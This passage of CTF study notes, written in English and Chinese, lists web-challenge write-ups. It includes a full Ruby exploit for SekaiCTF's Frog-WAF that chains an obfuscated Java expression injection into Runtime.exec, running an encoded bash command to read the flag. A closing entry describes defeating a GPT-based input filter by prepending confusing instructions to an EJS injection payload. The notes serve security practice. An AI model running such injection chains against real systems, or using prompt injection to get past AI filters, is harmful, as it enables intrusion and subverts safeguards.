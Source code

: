         - https://github.com/AlbertoFDR/CTF/tree/main/2023/ProjectSekai/web/Frog-WAF
        - https://gist.github.com/maikypedia/db98bc83cc76ec7c82e1a4347c6127ba
        - https://github.com/SuperStormer/writeups/tree/master/sekaictf_2023/web/frog-waf
        - https://gist.github.com/zeyu2001/1b9e9634f6ec6cd3dcb588180c79bf00
        ```rb
        require 'http'
        def gen_s(s)
            a = <<E.strip!
            [].toString().getClass().getMethods()[#{Array.new(22, []).inspect}.size()].invoke([].toString(), [].size()).getClass().getMethods()[#{Array.new(5, []).inspect}.size()].invoke([].toString().getClass().getMethods()[#{Array.new(22, []).inspect}.size()].invoke([].toString(), [].size()), %s.size())
        E
            r = []
            s.chars.each do |c|
                r << a % Array.new(c.ord, []).inspect
            end
            sr = ""
            r.each do
                if sr.length.zero?
                    sr << _1
                    next
                else
                    sr << (".concat(%s)" % _1)
                end
            end
            sr
        end
        cn = gen_s("java.lang.Runtime")
        # https://ares-x.com/tools/runtime-exec/
        cmd = gen_s("bash -c {echo,Y2F0IC9mbGFnLSoudHh0}|{base64,-d}|{bash,-i}")
        bcn = gen_s("java.util.Base64")
        exp = <<E.strip!
        [].getClass().getClass().getMethods()[#{Array.new(2, []).inspect}.size()].invoke(null, #{cn}).getMethods()[#{Array.new(6, []).inspect}.size()].invoke(null).exec(#{cmd}).getInputStream()
        E
        r_exp = <<E.strip!
        ${[].getClass().getClass().getMethods()[#{Array.new(2, []).inspect}.size()].invoke(null, #{bcn}).getMethods()[#{Array.new(6, []).inspect}.size()].invoke(null).getClass().getMethods()[#{Array.new(4, []).inspect}.size()].invoke([].getClass().getClass().getMethods()[#{Array.new(2, []).inspect}.size()].invoke(null, #{bcn}).getMethods()[#{Array.new(6, []).inspect}.size()].invoke(null), #{exp}.readAllBytes())}
        E
        url = "http://frog-waf.chals.sekai.team/addContact"
        r = HTTP.post(url, json: {"firstName": "test", "lastName": "test", "description": "test", "country": r_exp})
        puts r
        ```
- [Aspiring Calculator](https://github.com/4n86rakam1/writeup/tree/main/TUCTF_2023/Web/Aspiring_Calculator)
    - C# ASP.NET Razor engine SSTI
- [My First Blog](https://github.com/4n86rakam1/writeup/blob/main/TUCTF_2023/Web/My_First_Blog)
    - 过滤部分关键词后的python flask ssti
- [gpwaf](https://nanimokangaeteinai.hateblo.jp/entry/2024/02/06/051003#Web-115-gpwaf-180-solves)
    - ejs模板注入。题目增加了一个绕过gpt过滤的环节。这种用gpt做过滤的题之前没见过，做的时候发现只要payload带有ejs注入必须的`<%`就报错，完全不知道怎么绕过。后面看了wp意识到这是gpt，不是黑/白名单之类的过滤，在payload前加几句干扰gpt的指令即可（以及不用`<%`的纯ejs注入确实不可能）
